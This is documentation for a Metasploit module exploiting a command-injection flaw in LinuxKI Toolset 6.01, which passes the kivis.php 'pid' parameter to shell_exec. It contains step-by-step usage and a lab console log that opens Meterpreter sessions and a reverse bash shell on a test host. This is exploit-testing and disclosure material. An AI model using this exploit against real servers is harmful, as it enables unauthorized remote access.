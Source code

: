 ## Vulnerable Application
LinuxKI Toolset <= 6.01

This module exploits a vulnerability in LinuxKI Toolset <= 6.01 which allows remote code execution.
The `kivis.php` `pid` parameter received from the user is sent to the `shell_exec` function, resulting in security vulnerability.

To test this application, you need to download the version 6.01 [here](https://github.com/HewlettPackard/LinuxKI/blob/v6.0-1/Dockerfile).
Do not forget to change [this URL](https://raw.githubusercontent.com/HewlettPackard/LinuxKI/master/rpms/linuxki-6.0-1.noarch.rpm) inside
the Dockerfile with [this one](https://github.com/HewlettPackard/LinuxKI/raw/v6.0-1/rpms/linuxki-6.0-1.noarch.rpm).

## Verification Steps
1. Install the application
2. Start msfconsole
3. Do: ```use exploit/linux/http/linuxki_rce```
4. Do: ```show TARGETS```
5. Do: ```set TARGET #```
6. Do: ```set RHOSTS```
7. Do: ```set LHOST```
8. Do: ```run```
9. You should get a shell.

## Options
### TARGETURI

The directory where LinuxKI Toolset is installed

### WritableDir

A writable directory file system path. (default: `/tmp`)

### ForceExploit

Override check result.

## Scenarios
### LinuxKI Toolset v6.01 on CentOS 7.8
```
msf5 > use exploit/linux/http/linuxki_rce
msf5 exploit(linux/http/linuxki_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)
   1   Automatic (PHP Dropper)
   2   Automatic (Unix In-Memory)
   3   Automatic (Linux Dropper)


msf5 exploit(linux/http/linuxki_rce) > set rhosts 192.168.1.43
rhosts => 192.168.1.43
msf5 exploit(linux/http/linuxki_rce) > set rport 32769
rport => 32769
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (PHP In-Memory) target
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.1.43
[*] Meterpreter session 1 opened (192.168.1.43:4444 -> 192.168.1.43:53126) at 2020-06-07 20:27:10 +0300

meterpreter > sysinfo
Computer    : 36503ef4f463
OS          : Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.43 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(linux/http/linuxki_rce) > set target 1
target => 1
msf5 exploit(linux/http/linuxki_rce) > unset payload
Unsetting payload...
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (PHP Dropper) target
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.1.43
[*] Meterpreter session 2 opened (192.168.1.43:4444 -> 192.168.1.43:53133) at 2020-06-07 20:27:52 +0300
[!] This exploit may require manual cleanup of '/tmp/kB4gJoH4xozwDdUva6tjqt.php' on the target

meterpreter > sysinfo
Computer    : 36503ef4f463
OS          : Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.43 - Meterpreter session 2 closed.  Reason: User exit
msf5 exploit(linux/http/linuxki_rce) > set target 2
target => 2
msf5 exploit(linux/http/linuxki_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (Unix In-Memory) target
[*] Sending payload...
[*] Command shell session 3 opened (192.168.1.43:4444 -> 192.168.1.43:53141) at 2020-06-07 20:29:56 +0300

uname -a
Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.1.43 - Command shell session 3 closed.
msf5 exploit(linux/http/linuxki_rce) > set target 3
target => 3
msf5 exploit(linux/http/linuxki_rce) > unset payload
Unsetting payload...
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (Linux Dropper) target
[*] Sending payload...
[*] Sending stage (980808 bytes) to 192.168.1.43
[*] Meterpreter session 4 opened (192.168.1.43:4444 -> 192.168.1.43:53146) at 2020-06-07 20:31:23 +0300
[!] This exploit may require manual cleanup of '/tmp/ag6G4ssIKEpH3lDyL.php' on the target

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : CentOS 7.8.2003 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.2 - Meterpreter session 4 closed.  Reason: User exit
msf5 exploit(linux/http/linuxki_rce) >
```
